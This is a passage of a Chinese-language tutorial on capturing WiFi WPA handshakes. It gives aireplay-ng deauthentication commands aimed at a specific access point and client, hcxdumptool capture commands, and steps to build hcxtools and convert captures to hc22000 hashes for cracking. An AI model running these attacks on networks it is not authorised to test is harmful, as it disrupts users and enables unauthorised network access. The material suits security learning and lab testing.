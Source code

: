 ![image-20230410091929766](https://raw.githubusercontent.com/simoonp/upgit_picture/main/2023/04/upgit_20230410_1681089569.png)

目前该WiFi有1个设备在线

#### 6、新开终端使用aireplay-ng进行解除认证攻击模式

```shell
sudo aireplay-ng -0 10 -a 32:A2:81:D7:52:E9  -c F0:6C:5D:EC:5B:0C  wlan0mon
# -0 是第0种模式，后面的10表示就行10次攻击
# -a AP端的bssid
# -c 客户端的bssid
# 网卡会模拟客户端的dssid就行攻击
```

#### 7、当 airodump-ng监听 窗口出现 `handshake` 或客户端位置出现对应的WiFi名称，表明抓包成功

![image-20230410092625902](https://raw.githubusercontent.com/simoonp/upgit_picture/main/2023/04/upgit_20230410_1681089986.png)

不知道是不是软件版本还是什么问题，我这里不显示`handshake`，显示WiFi名称

![image-20230410092712664](https://raw.githubusercontent.com/simoonp/upgit_picture/main/2023/04/upgit_20230410_1681090032.png)

## 使用 hcxdumptool 抓取数据

```shell
sudo hcxdumptool -i wlan0 -o dumpfile.pcapng --active_beacon --enable_status=15
sudo hcxdumptool -i wlan1 -o dumpfile.pcapng --active_beacon --enable_status=15

# 转换数据包
hcxpcapngtool -o info.hc22000 dumpfile.pcapng
```



## cap数据包与 hc22000数据包相互转换

```
# 安装依赖
sudo apt-get install pkg-config libcurl4-openssl-dev libssl-dev zlib1g-dev make gcc
# 下载源码
git clone https://github.com/ZerBea/hcxtools.git

# 编译源码
cd hcxtools
make
# install to /usr/bin:
sudo make install (as super user)

# Completing external command
# hcxeiutool     hcxhash2cap    hcxhashtool    hcxpcapngtool  hcxpmktool     hcxpsktool     hcxwltool 

# cap数据包 转换为 hc22000
hcxpcapngtool -o hc22000数据包.hc22000 cap数据包.cap
# -o 参数指定输出文件名

# 将 hc22000数据包 转换为 cap数据包
hcxhash2cap --pmkid-eapol=hc22000数据包.hx22000 -c cap数据包.cap
```
